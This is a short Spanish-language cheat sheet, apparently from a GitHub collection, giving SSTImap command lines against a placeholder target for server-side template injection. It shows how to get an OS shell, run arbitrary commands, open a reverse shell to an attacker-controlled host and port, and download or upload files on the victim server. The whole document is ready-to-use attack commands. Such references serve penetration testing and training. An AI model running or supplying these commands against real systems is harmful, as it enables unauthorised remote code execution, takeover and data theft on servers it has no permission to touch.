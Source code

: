 # SSTImap Cheat Sheet

#### Escaneo de vulnerabilidad SSTI a un parametro POST llamado 'name':
```
./sstimap.py -u 'http://<TARGET>' -m POST -d name
```

#### Escaneo de vulnerabilidad SSTI a un parametro POST llamado 'name' y que nos de una shell:
```
./sstimap.py -u 'http://<TARGET>' -m POST -d name --os-shell
```

#### Escaneo de vulnerabilidad SSTI en un request GET:
```
./sstimap.py -u 'http://<TARGET>/execute?cmd=test'
```

#### Escaneo de vulnerabilidad SSTI a un parametro POST llamado 'name' y enviar un comando único:
```
./sstimap.py -u 'http://<TARGET>' -m POST -d name -S <COMMAND>
```

#### Escaneo de vulnerabilidad SSTI a un parametro POST llamado 'name' y obtener una Reverse Shell:
```
./sstimap.py -u 'http://<TARGET>' -m POST -d name -R <HOST-ATTACK> <PORT-ATTACK>
```

#### Escaneo de vulnerabilidad SSTI a un parametro POST llamado 'name' y descargar un arhivo:
```
./sstimap.py -u 'http://<TARGET>' -m POST -d name -D <FILE-NAME-REMOTE> <FILE-NAME-LOCAL>
```

#### Escaneo de vulnerabilidad SSTI a un parametro POST llamado 'name' y cargar un arhivo:
```
./sstimap.py -u 'http://<TARGET>' -m POST -d name -U <FILE-NAME-LOCAL> <FILE-NAME-REMOTE>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)